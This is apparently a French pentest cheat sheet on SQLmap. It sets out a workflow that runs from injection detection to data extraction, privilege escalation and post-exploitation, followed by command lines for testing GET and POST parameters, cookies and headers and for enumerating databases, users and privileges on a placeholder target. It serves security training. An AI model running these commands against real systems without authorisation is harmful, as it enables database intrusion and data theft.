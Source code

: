 # SQLmap - Guide Complet d'Exploitation

## 🗂️ Workflow d'utilisation SQLmap
1. Détection initiale de l'injection (paramètre vulnérable)
   ↓
2. Énumération des bases de données disponibles
   ↓
3. Exploration de la structure (tables, colonnes)
   ↓
4. Extraction des données sensibles
   ↓
5. Tentatives d'élévation de privilèges
   ↓
6. Post-exploitation via SQL injection

## 📋 Vue d'ensemble

SQLmap est l'outil de référence pour l'exploitation automatisée des injections SQL. Il détecte, exploite et extrait des données via des vulnérabilités SQL injection.

> **💡 Explication Simple** : C'est comme avoir un traducteur automatique qui convertit vos questions en langage que la base de données comprend, même quand elle n'est pas censée vous répondre.

## ⚡ Commandes Essentielles

### Détection et tests basiques
```bash
# Test basique sur paramètre GET
sqlmap -u "http://target.com/page?id=1"

# Test avec données POST
sqlmap -u "http://target.com/login" --data="username=admin&password=test"

# Test avec cookies
sqlmap -u "http://target.com/page" --cookie="SESSIONID=abc123"

# Test avec headers personnalisés
sqlmap -u "http://target.com/page" --headers="X-Forwarded-For: 1.1.1.1"
```

### Énumération des bases de données
```bash
# Lister toutes les bases
sqlmap -u "http://target.com/page?id=1" --dbs

# Informations système
sqlmap -u "http://target.com/page?id=1" --banner
sqlmap -u "http://target.com/page?id=1" --current-user
sqlmap -u "http://target.com/page?id=1" --current-db

# Privilèges utilisateur
sqlmap -u "http://target.com/page?id=1" --privileges
```
